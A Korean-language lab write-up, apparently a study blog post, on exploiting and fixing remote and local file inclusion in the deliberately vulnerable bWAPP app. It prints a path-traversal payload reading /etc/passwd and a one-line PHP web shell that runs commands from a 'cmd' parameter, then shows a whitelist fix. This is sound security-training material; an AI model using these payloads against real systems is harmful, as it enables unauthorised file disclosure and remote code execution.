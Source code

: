 ```yaml
---
title: "[bWAPP] 7. Missing Functional Level Access Control - Remote & Local File Inclusion (RFI/LFI)"
---
```




## Missing Functional Level Access Control

접근 통제와 확인이 서버의 설정이나 관리 측면에서 이루어지지 않을때 발생하는 취약점

대표적으로 파일 다운로드와 업로드 취약점을 이용하여 웹 서버에 접근하는 공격

# File Inclusion

악의적인 코드가 입력된 파일을 공격자가 서버에 업로드하여 사용자가 열람하는 공격

# LFI(Local File Inclusion)

서버 내부에 있는 파일을 확인하는 공격

서버에 접근하는 변수 중 취약한 변수에 상대경로(../)를 사용하여 서버 내부에 접근

# RFI(Remote File Inclusion)

공격자가 악성 코드가 있는 원격 서버의 파일을 공격 대상인 웹 애플리케이션 서버에서 실행시켜 취약한 웹 페이지에 악의적인 스크립트를 실행하게 하는 공격

#  Local File Inclusion (RFI/LFI)

## Object

GET 방식으로 HTTP 요청을 사용하는 웹 페이지의 URL에 상대경로(../)를 이용하여 정보를 갈취해보자



## 시나리오

### 난이도 : 하

![image-20211101200326870](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211101200326870.png)

- Go 버튼 클릭 시 URL에 변수(language) 노출



![image-20211101194815125](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211101194815125.png)

- 변수에 ../../../../../etc/passwd 로 상위 파일 상대경로와 etc 디렉터리, passwd 파일 설정
- 데이터베이스 내의 비박스 계정 패스워드 정보 열람

# Remote File Inclusion(RFI)

## Object

특정 bWAPP 시나리오에 특정 스크립트 삽입하여 (LFI/RFI) 시나리오에 원격 공격을 시도해보자



## 시나리오

### 난이도 : 하

### A6. Sensitive Data Exposure - Text Files (Accouts)

![image-20211101202631536](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211101202631536.png)

<img src="image-20211101202725707.png" alt="image-20211101202725707" style="zoom:110%;" />

- <?php echo "<script>alert(\"Succeed\")</script>";system($_GET["cmd"]);?>
- 해당 스크립트 Username에 삽입하여 [insert] 버튼으로 경고창 스크립트 파일(accounts.txt) 생성
- Download  클릭 시 accounts.txt(공격에 사용될 PHP 파일) 창으로 이동



### Remote & Local File Inclusion (RFI/LFI)

![image-20211101205147683](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211101205147683.png)



![image-20211101211353036](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211101211353036.png)

# 대응방안

## Beebox

### Terminal

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211104214538713.png" alt="image-20211104214538713" style="zoom:150%;" />

- 디렉토리 변경
- vi 편집기로 해당 시나리오 소스 코드 조회

### rlfi.php

![image-20211104215356539](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211104215356539.png)

- Level 확인

### LFI

![image-20211104220754655](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211104220754655.png)

- language 변수에 입력할 내용을 배열로 한정하는 화이트 리스트 방식을 사용
- 즉, 안전이 증명된 값만을 취함

### RFI

![image-20211104220938080](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211104220938080.png)

- language 변수에 들어오는 입력 값을 생성한 배열로 검증하기 때문에 RFI 공격에 사용한 cmd 변수나 URL은 입력하지 못함
